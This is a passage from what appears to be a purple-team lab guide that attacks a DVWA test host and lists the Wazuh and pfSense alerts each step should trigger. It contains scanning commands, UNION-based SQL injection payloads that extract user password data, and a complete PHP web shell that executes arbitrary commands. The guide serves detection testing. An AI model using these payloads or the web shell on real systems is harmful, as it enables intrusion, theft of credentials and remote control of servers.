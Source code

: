 **Expected Detections:**

- pfSense: Port scan detection
- Wazuh Rule: 40101 (Multiple connection attempts)
- Alert Level: Medium

#### 1.2 Web Application Fingerprinting

```bash
# Directory enumeration
dirb http://192.168.2.10/dvwa/
gobuster dir -u http://192.168.2.10/dvwa/ -w /usr/share/wordlists/dirb/common.txt

# Technology detection
whatweb http://192.168.2.10/dvwa/
nikto -h http://192.168.2.10/dvwa/
```

**Expected Detections:**

- Apache access logs: Multiple 404 errors
- Wazuh Rule: 31151 (Web scanner detection)
- Alert Level: Medium

### Phase 2: Initial Exploitation (10 minutes)

#### 2.1 SQL Injection Attack

```bash
# Access DVWA SQL Injection page
curl "http://192.168.2.10/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT 1,version(),database()--&Submit=Submit"

# Extract database information
curl "http://192.168.2.10/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT 1,user(),@@datadir--&Submit=Submit"

# Extract user data
curl "http://192.168.2.10/dvwa/vulnerabilities/sqli/?id=1' UNION SELECT 1,user,password FROM users--&Submit=Submit"
```

**Expected Detections:**

- Apache access logs: SQL injection patterns
- Wazuh Rule: 31106 (SQL injection attempt)
- Alert Level: High

#### 2.2 File Upload Vulnerability

```bash
# Create PHP web shell
cat > shell.php << 'EOF'
<?php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
<form method="GET">
<input type="text" name="cmd" placeholder="Enter command">
<input type="submit" value="Execute">
</form>
EOF

```